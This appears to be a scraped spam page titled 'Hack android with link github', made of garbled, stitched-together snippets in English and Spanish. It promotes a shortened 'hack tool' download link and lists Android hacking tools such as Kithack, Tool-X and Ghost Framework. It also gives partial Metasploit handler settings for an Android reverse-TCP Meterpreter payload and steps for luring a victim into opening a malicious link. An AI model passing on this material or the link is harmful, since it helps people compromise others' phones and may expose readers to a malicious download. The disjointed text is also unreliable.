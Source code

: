 Hack android with link github



𝐃𝐎𝐖𝐍𝐋𝐎𝐀𝐃 𝐇𝐀𝐂𝐊 𝐓𝐎𝐎𝐋 𝐇𝐄𝐑𝐄 ===> https://t.ly/1vfm?544924



.



.



.



.



.



.



.



.



.



.



.



.

4) Incorporación de un nuevo método que permite infectar aplicaciones Android legitimas. Kithack nos proporciona la opción de poder infectar una APK original. Tool-X is a kali linux hacking Tool installer. Onex is a package manager for hacker's. Infect Any Android Device With Virus From Link In Termux. Ghost Framework is an Android post-exploitation framework that exploits the Windows credentials, Android PIN and iPhone Passcode using a https link.

43 rows ·  · Follow Hack with GitHub on your favorite social media to get daily .  · To hack android phones by sending a link, we need a public ip address and port. Type ifconfig and note down your ip  exploit/multi/handler set payload android/meterpreter/reverse_tcp set lhost set lport  the ultimate phone spy app; We need to check our local ip that turns out to be ‘’.  · How to Hack Android by Sending Link. Let’s start with the basic principle and followed by the methods. Basic Principle: To hack an Android phone, you need to take the following steps. 1. Create a link using an appropriate software. The link will lead the victim to your website or app. 2. Send the link to the victim through a text message.
